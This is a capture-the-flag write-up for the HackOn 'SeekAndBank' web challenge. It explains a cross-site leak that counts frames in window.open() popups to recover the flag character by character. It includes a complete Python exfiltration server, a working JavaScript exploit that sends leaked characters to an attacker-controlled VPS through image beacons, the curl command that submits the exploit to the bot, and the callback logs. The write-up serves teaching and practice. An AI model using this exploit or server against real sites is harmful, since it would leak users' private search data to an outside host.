

# SeekAndBank - Web Challenge

**Category:** Web (XS-Leak)
**CTF:** HackOn CTF
**Flag:** `HackOn{d1skc4ch3}`
**Difficulty:** Medium-Hard

---

## Initial Analysis

### Components

| Component | Port | Description |
|-----------|------|-------------|
| Flask app (`web/app.py`) | 5000 | "Bank accounts" app with `?q=` search |
| Puppeteer Bot (`bot/conf.js`) | 1337 | Writes FLAG as account, visits user-provided URL |

### Reconnaissance

```bash
# Main endpoints
GET  /?q=<query>     # Substring search on accounts
POST /add            # Add account
POST /api/report     # Bot visits provided URL
```

#### Production Headers

```
Cache-Control: private
Vary: Cookie
```

The app tries to set `Cache-Control: public` and remove `Vary` in `after_request`, but **Flask-Session overwrites these headers** when saving the session (re-adds `Vary: Cookie`). Cache poisoning ruled out.

#### Bot (conf.js)



```javascript
// The bot writes the FLAG as an account name in its session
await page1.type("input[name='name']", flag.value);
await page1.click("button[type='submit']");
// Then visits the user's URL with 10s dwell time
await page2.goto(url, { timeout: 3_000 });
await sleep(10_000);
```

Bot flags: `--disable-popup-blocking`, `--no-sandbox`, `--jitless`

---

## Vulnerability: XS-Leak via Frame Counting

### Vulnerable Template

```html
<!-- index.html: each result is rendered in an iframe -->
<iframe class="account-frame" sandbox
    srcdoc="<html><body>AC-{{ item|safe }}</body></html>">
</iframe>

<!-- If no match: -->
<li class="no-results">No matching accounts found</li>
```

### The Oracle

| Search | HTML Result | `window.length` |
|--------|-------------|-----------------|
| Match  | `<iframe>` rendered | `> 0` |
| No match | `<li>` without iframe | `= 0` |

**`window.open().length`** is **readable cross-origin**: the browser allows reading the frame count of a window opened with `window.open()`, regardless of origin. This is by browser design (not a bug), but creates a side-channel.

> Note: `iframe.contentWindow.length` does NOT work cross-origin (throws error). Only `window.open()` popups allow reading `.length`.

---

## Exploit Infrastructure

### Exfiltration Server (`exfil_server.py`)

Dual HTTP server that serves the exploit HTML and captures callbacks:

```python
#!/usr/bin/env python3
"""Serve exploit + capture exfil callbacks."""
import http.server, os, sys
from datetime import datetime
from urllib.parse import urlparse, parse_qs

PORT = int(sys.argv[1]) if len(sys.argv) > 1 else 9999
SERVE_DIR = os.path.dirname(os.path.abspath(__file__))

class ExfilHandler(http.server.SimpleHTTPRequestHandler):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, directory=SERVE_DIR, **kwargs)

    def do_GET(self):
        ts = datetime.now().strftime('%H:%M:%S')
        parsed = urlparse(self.path)
        if parsed.path.startswith('/cb'):
            params = {k: v[0] for k, v in parse_qs(parsed.query).items()}
            print(f"\n[{ts}] CALLBACK: {params}", flush=True)
            with open(os.path.join(SERVE_DIR, 'exfil_results.log'), 'a') as f:
                f.write(f"[{ts}] {params}\n")
            self.send_response(200)
            self.send_header('Content-Type', 'image/gif')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.send_header('Cache-Control', 'no-store')
            self.end_headers()
            self.wfile.write(b'GIF89a\x01\x00\x01\x00\x80\x00\x00'
                             b'\xff\xff\xff\x00\x00\x00!\xf9\x04'
                             b'\x00\x00\x00\x00\x00,\x00\x00\x00'
                             b'\x00\x01\x00\x01\x00\x00\x02\x02D\x01\x00;')
        else:
            print(f"[{ts}] SERVE: {self.path}", flush=True)
            super().do_GET()

if __name__ == '__main__':
    print(f"[*] Listening on :{PORT}")
    http.server.HTTPServer(('0.0.0.0', PORT), ExfilHandler).serve_forever()
```

### Hosting

The Puppeteer bot needs to access our exploit HTML. The solution:

1. **Port 9999** on the VPS was externally accessible (already mapped by Docker).
2. Run `exfil_server.py` listening on `0.0.0.0:9999`.
3. The server serves both purposes from a single process:
   - `GET /xs_leak_exploit.html` → serves the exploit to the bot
   - `GET /cb?params=...` → captures exfiltration callbacks (returns 1x1 transparent GIF with CORS)

```bash
# Start server
python3 exfil_server.py 9999

# Verify external accessibility
curl http://<VPS>:9999/xs_leak_exploit.html
```

> **Issue encountered**: webhook.site has CSP `script-src 'none'` on the free tier, blocking JS. Hence the self-hosted server.
>
> **Issue encountered**: Opening 38+ popups at once silently crashes the bot's Chromium. Solution: split charset into batches of ~20 chars.

---

## Exploit (`xs_leak_exploit.html`)

```html
<!DOCTYPE html>
<html><body><script>
var A='https://hackon-seeknbank-web.chals.io';
var E='http://<VPS>:9999';
var B1='_-abcdefghijklmnopqr';   // Batch 1: 20 chars
var B2='stuvwxyz0123456789}';     // Batch 2: 19 chars
var W=1500;                       // Wait time (ms) for pages to load
var P='HackOn{';                  // Known prefix (updated between runs)

// Exfil: loads an image with data as query params
function ex(d){new Image().src=E+'/cb?'+new URLSearchParams(d)}
function sl(ms){return new Promise(function(r){setTimeout(r,ms)})}

// Test Batch: opens N popups in parallel, reads .length from each
async function tb(pfx, chars){
  var ws={};
  for(var j=0; j<chars.length; j++){
    ws[chars[j]] = window.open(A+'/?q='+encodeURIComponent(pfx+chars[j]));
  }
  await sl(W);
  var f='';
  for(var j=0; j<chars.length; j++){
    var c=chars[j];
    if(!ws[c]) continue;
    try{ if(ws[c].length > 0) f=c; }catch(e){}
    try{ ws[c].close(); }catch(e){}
  }
  return f;
}

async function go(){
  ex({s:'S', p:P});

  // Verify current prefix is valid
  var v = window.open(A+'/?q='+encodeURIComponent(P));
  await sl(W);
  var vl=-1;
  try{ vl=v.length; }catch(e){}
  try{ v.close(); }catch(e){}
  ex({s:'V', l:vl});
  if(vl <= 0) return;  // Prefix doesn't match, abort

  // Leak: test each char in batches
  var k=P;
  for(var i=0; i<8; i++){
    var c = await tb(k, B1);          // Test batch 1
    if(!c) c = await tb(k, B2);       // If no match, test batch 2
    if(c){
      k += c;
      ex({s:'F', i:i, c:c, k:k});    // Report found char
      if(c == '}') break;             // Flag complete
    } else {
      ex({s:'X', i:i, k:k});         // Char not found
      break;
    }
  }
  ex({s:'E', r:k});                   // Final result
}
go();
</script></body></html>
```

---

## Execution

### Start server

```bash
python3 exfil_server.py 9999
```

### Submit URL to the bot

```bash
# First iteration: P='HackOn{'
curl -X POST https://hackon-seeknbank-bot.chals.io/api/report \
  -H 'Content-Type: application/json' \
  -d '{"url":"http://<VPS>:9999/xs_leak_exploit.html"}'
```

### Observe callbacks

```
[19:42:15] CALLBACK: {'s': 'S', 'p': 'HackOn{'}
[19:42:17] CALLBACK: {'s': 'V', 'l': '1'}        ← valid prefix
[19:42:20] CALLBACK: {'s': 'F', 'i': '0', 'c': 'd', 'k': 'HackOn{d'}
[19:42:23] CALLBACK: {'s': 'F', 'i': '1', 'c': '1', 'k': 'HackOn{d1'}
[19:42:26] CALLBACK: {'s': 'E', 'r': 'HackOn{d1'}
```

### Update prefix and repeat

Edit `var P='HackOn{d1';` in the HTML and resubmit to the bot. Repeat until `}` is found.

| Run | Prefix | Leaked chars | Result |
|-----|--------|--------------|--------|
| 1 | `HackOn{` | `d`, `1` | `HackOn{d1` |
| 2 | `HackOn{d1` | `s`, `k` | `HackOn{d1sk` |
| 3 | `HackOn{d1sk` | `c`, `4` | `HackOn{d1skc4` |
| 4 | `HackOn{d1skc4` | `c`, `h` | `HackOn{d1skc4ch` |
| 5 | `HackOn{d1skc4ch` | `3`, `}` | `HackOn{d1skc4ch3}` |

> **Rate limit**: Bot API has `X-RateLimit-Limit: 5` per 60s window. Wait between submissions.

---

## Flag

```
HackOn{d1skc4ch3}
```

---

## Rabbit Holes

1. **Cache poisoning**: The app sets `Cache-Control: public` and removes `Vary`, but Flask-Session overwrites it in `save_session()` (which runs AFTER `after_request`). In production: `Cache-Control: private`, `Vary: Cookie`. Doesn't work.
2. **srcdoc XSS**: `{{ item|safe }}` allows escaping the srcdoc with `"`, but the iframe has `sandbox` without `allow-scripts`. JS doesn't execute inside the sandbox.
3. **iframe.contentWindow.length**: Cross-origin iframes throw errors when accessing `.length`. Only `window.open()` popups allow reading frame count.

---

## Key Lessons

1. **XS-Leak frame counting**: `window.open().length` is readable cross-origin by browser design. Any app that conditionally renders iframes in search results is vulnerable to this oracle.
2. **Batching popups**: Chromium silently crashes with too many simultaneous popups (~38+). Limit to ~20 per batch.
3. **Flask-Session order of operations**: `save_session()` runs after `after_request`, overwriting headers. Always verify headers in production, not in source code.
4. **Self-hosting vs webhook.site**: webhook.site free tier adds CSP `script-src 'none'`. For exploits that require JS, host on your own server.
5. **Iterative exfiltration**: With 10s dwell time and ~1.5s per popup batch, you can extract ~2-4 chars per bot run.
